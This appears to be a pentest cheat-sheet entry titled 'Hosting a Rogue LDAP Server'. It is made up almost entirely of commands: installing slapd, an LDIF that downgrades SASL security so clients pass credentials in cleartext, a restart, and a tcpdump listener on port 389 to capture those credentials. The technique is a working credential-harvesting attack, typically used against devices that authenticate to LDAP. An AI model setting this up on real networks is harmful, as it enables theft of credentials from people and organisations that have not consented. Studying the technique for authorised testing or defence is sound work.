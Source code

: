 Hosting a Rogue LDAP Server

	sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

Create new file: olcSaslSecProps.ldif
```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Start rogue LDAP server

	sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

Check if start was successfull

	ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

Listen for connection

	sudo tcpdump -SX -i [interface] tcp port 389
